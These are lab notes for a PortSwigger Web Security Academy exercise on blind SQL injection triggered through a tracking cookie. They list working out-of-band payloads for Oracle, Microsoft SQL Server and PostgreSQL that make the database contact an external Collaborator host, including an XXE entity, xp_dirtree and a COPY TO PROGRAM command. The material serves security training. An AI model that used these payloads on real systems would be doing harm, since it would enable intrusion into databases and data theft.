 15 Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Learning path: If you're following our learning path, please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet




---------------------------------------------


### Oracle
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

```
FFyToxqSs49lpxuC'+AND+select+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://q6xv6nktkah599jksflne4qcz35utqhf.oastify.com/">+%remote%3b]>'),'/l')+FROM+dual--

FFyToxqSs49lpxuC'+AND+SELECT+UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')--
```

### Microsoft
```
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
```

```
FFyToxqSs49lpxuC'+and+exec+master..xp_dirtree+'//BURP-COLLABORATOR-SUBDOMAIN/a'--
```

### PostgreSQL
```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```
